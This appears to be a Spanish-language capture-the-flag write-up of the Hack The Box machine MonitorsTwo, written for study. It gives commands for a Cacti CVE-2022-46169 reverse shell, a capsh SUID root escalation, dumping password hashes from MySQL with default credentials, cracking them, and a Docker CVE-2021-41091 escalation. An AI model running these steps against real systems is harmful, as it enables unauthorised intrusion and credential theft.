 ```yaml
---
layout: post
title: MONITORS TWO WRITEUP.
subtitle: Resolucion de la maquina monitors two de HTB.
header-img: img/in-post/monitors_two/monitors-two.webp
header-style: image
header-mask: rgba(0, 0, 0, .4)
catalog: true
tags:
  - htb
  - docker-abuse
  - rce
  - password-cracking
---
```



  <!-- HTML Meta Tags -->
  <title>MONITORS TWO WRITEUP.</title>
  <meta name="description" content="Resolución de la máquina monitors two de HTB.">
  <!-- Facebook Meta Tags -->
  <meta property="og:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta property="og:type" content="website">
  <meta property="og:title" content="MONITORS TWO WRITEUP.">
  <meta property="og:description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">

  <!-- Twitter Meta Tags -->
  <meta name="twitter:card" content="summary_large_image">
  <meta property="twitter:domain" content="quantumwavves.github.io">
  <meta property="twitter:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta name="twitter:title" content="MONITORS TWO WRITEUP.">
  <meta name="twitter:description" content="Resolución de la máquina monitors two de HTB.">
  <meta name="twitter:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">

## Tools
- Python
- Netcat 
- John The Ripper
## Topics
- Remote Code Execution / Reverse Shell
- Docker
- CVE's 
- Privilege Escalation
- Password HASH cracking
- SSH

Hola, el dia de hoy vamos a resolver la maquina de monitors two de HTB.

Primero realizaremos un escaneo de reconocimiento con NMAP.

## Reconocimiento

```bash
sudo nmap -Pn -p- -A -T4 -oN scan.txt 10.10.11.211
```
Obtenemos el resultado del escaneo:

<img src="/img/in-post/monitors_two/nmap-scan.png" onclick="window.open(this.src)">

<p style="text-aling:justify">Observamos que existen dos puertos abiertos, el 22 que corresponde al servicio de SSH y el 80 que corresponde al servicio de HTTP. Revisamos el puerto 80 a través del navegador.</p>

<img src="/img/in-post/monitors_two/cacti-login.png" onclick="window.open(this.src)">

<p style="text-aling:justify">Observamos que es un login de Cacti, un software para el monitoreo de red. Probamos contraseñas default sin tener exito. Sin embargo podemos buscar CVE para la version 1.2.22 de cacti, misma que nos muestra en el login.</p>

## RCE / Reverse Shell

Después de una búsqueda encontramos una CVE para la versión 1.2.22.

- <a href ="https://cve.mitre.org/cgi-bin/cvename.cgi?name=VE-2022-46169">CVE 2022-46169</a>

Buscando encontre el siguiente script que nos ayuda con la RCE y nos brinda una reverse shell.

- <a href="https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22">FredBrave CVE-2022-46169</a>

Utilizare Netcat con los siguientes flags -n para que no haga resolucion de dns, -l para estar a la escucha, -v de verbose y -p que indica el puerto, en este caso 443:

```bash
sudo nc -nlvp 443
```

Utilizando el script para la RCE podremos obtener la reverse shell.

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST 10.10.16.79 --LPORT=443
```

<img src="/img/in-post/monitors_two/python-script.png" onclick="window.open(this.src)">

Ahora obtenemos la reverse shell a través del puerto 443.

<img src="/img/in-post/monitors_two/reverse-shell.png" onclick="window.open(this.src)">

## Escalada de privilegios

Utilizaremos esta herramienta para enumerar los binarios SUID.

- <a href="https://github.com/rebootuser/LinEnum">LinEnum</a>

Crearemos un servidor web para poder acceder al recurso.

<img src="/img/in-post/monitors_two/python-webserver.png" onclick="window.open(this.src)">

Obtenemos el recurso con wget.

<img src="/img/in-post/monitors_two/wget-source.png" onclick="window.open(this.src)">

Le damos permisos de ejecucion.

```bash
chmod +x LinEnum.sh
  ```
<img src="/img/in-post/monitors_two/linenum-permission.png" onclick="window.open(this.src)">

Una vez ejecutado el script nos listara los archivos SUID, nos interesa el archivo ``/sbin/capsh``. ¿Por que nos interesa este archivo? Principalmente por que no pierde privilegios heredados, por que lo que puede funcionarnos como puerta trasera. Mas sobre este archivo:

- <a href="https://gtfobins.github.io/gtfobins/capsh/">gtfobins</a>

<img src="/img/in-post/monitors_two/suid-files.png" onclick="window.open(this.src)">

Nos dirigimos a la ruta ``/sbin`` donde se encuentra el archivo capsh y ejecutaremos el siguiente comando para poder escalar privilegios.

```bash
./capsh --gid=0 --uid=0 --
```

<img src="/img/in-post/monitors_two/capsh.png" onclick="window.open(this.src)">

## Obteniendo credenciales

Observamos que mysql esta dentro del contenedor, utilizamos el siguiente comando para listar a los usuarios root.

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

<img src="/img/in-post/monitors_two/mysql.png" onclick="window.open(this.src)">

Vemos que existe un usuario ``marcus`` y nos da un hash del password del usuario.

## Cracking Hash Password

Utilizaremos john the ripper para encontrar una coincidencia con un diccionario.

<img src="/img/in-post/monitors_two/john.png" onclick="window.open(this.src)">

Vemos que ha encontrado una posible coincidencia.

## Logeandose por ssh

Intentaremos acceder por ssh introduciendo las credenciales del usuario marcus.

<img src="/img/in-post/monitors_two/ssh-auth.png" onclick="window.open(this.src)">

Y listo, tenemos acceso desde el usuario ``marcus``.

<img src="/img/in-post/monitors_two/ssh-login.png" onclick="window.open(this.src)">

## Escalando privilegios

Listaremos la version de docker que se esta utilizando.

<img src="/img/in-post/monitors_two/docker-v.png" onclick="window.open(this.src)">

Vemos que es la version ``20.10.5+dfsg1``, buscaremos alguna CVE que pueda ayudarnos con la escalada de privilegios. Después de una busqueda encontre un script que nos ayuda con esta CVE.

- <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-41091">Mitre CVE 2021-41091</a>
- <a href="https://github.com/UncleJ4ck/CVE-2021-41091">CVE-2021-41091</a>

Para poder usar este script necesitamos volver al contenedor y asignar a /bin/bash permisos de suid.

<img src="/img/in-post/monitors_two/bash-u+s.png" onclick="window.open(this.src)">

Exponemos el recurso con un servidor web como lo hicimos anteriormente.

<img src="/img/in-post/monitors_two/wget-exp.png" onclick="window.open(this.src)">

Le damos permisos de ejecucion para poder utilizarlo. 

<img src="/img/in-post/monitors_two/exp-permission.png" onclick="window.open(this.src)">

Despues de la ejecucion vemos que nos arroja un path: <br> ``/var/lib/docker/overlay2/c41d5854e4bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged``.

<img src="/img/in-post/monitors_two/exp-exe.png" onclick="window.open(this.src)">

Nos dirigimos a ese directorio y ejecutamos el siguiente comando para obtener la shell en root.

```bash
./bin/bash -p
```

<img src="/img/in-post/monitors_two/powned.png" onclick="window.open(this.src)">

Y listo, ahora somos root.

<img src="https://media.tenor.com/oY3PFmGbo98AAAAC/furina-genshin.gif">

Eso ha sido todo por el post, si piensas que me he equivocado en la informacion o en que he omitido algo que pueda mejorar el post, puedes contactarme por discord ```quantumwavves```
